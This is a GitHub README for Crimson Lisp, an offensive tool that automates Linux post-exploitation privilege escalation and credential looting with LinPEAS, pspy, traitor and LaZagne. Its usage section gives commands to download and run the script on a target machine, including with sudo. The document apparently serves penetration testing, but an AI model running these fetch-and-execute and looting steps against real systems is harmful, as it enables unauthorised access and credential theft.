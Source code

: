 # Crimson Lisp

> Crimson Lisp is a tool that automates post-exploitation `PRIVILEGE ESCALATION` & `LOOTING` phases.
> It uses many open source tools. Most of them are available for download from GitHub.

<p align="center">
  <img src="lisp.png" />
</p>

# Installation
```bash
git clone https://github.com/Karmaz95/crimson_lisp.git
```
# Usage
```bash
cd crimson_lisp
sudo python3 -m http.server 80

# ON THE TARGET MACHINE - download and execute
curl -s -k http://127.0.0.1/lisp.sh -o lisp.sh; chmod +x lisp.sh
./lisp.sh -u "http://127.0.0.1/"
./lisp.sh -e
sudo ./lisp.sh -l
```
# HISTORY
> If you are curious about how it works, read my blog:
* [MEDIUM](https://karol-mazurek95.medium.com/crimson-lisp-36d4891437d5)

# List of utilized tools
> The following tools are used in `Crimson Lisp`. I encourage you to study the links below. They will help you in your work.

* [LinPEAS](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS)
* [pspy](https://github.com/DominicBreuker/pspy)
* [traitor](https://github.com/liamg/traitor)
* [LES: Linux privilege escalation auditing tool](https://github.com/mzet-/linux-exploit-suggester)
* [The LaZagne Project](https://github.com/AlessandroZ/LaZagne)

# LICENSE
> This program is free software: you can redistribute it and/or modify it under the terms of the [Apache License](https://choosealicense.com/licenses/apache-2.0/). Crimson Lisp and any contributions are Copyright © by Karol Mazurek 2022.

# SUPPORT
> You can support the project by buying me a coffee or via [NFT](https://opensea.io/assets/matic/0x2953399124f0cbb46d2cbacd8a89cf0599974963/63545429842149574507305116647116186975620361263604520406486432940112228647212/) which unlock the secret Crimson Web community.

<a href="https://www.buymeacoffee.com/karmaz95" target="_blank"><img src="https://cdn.buymeacoffee.com/buttons/v2/default-red.png" alt="Buy Me A Coffee" style="height: 60px !important;width: 200px !important;" ></a>
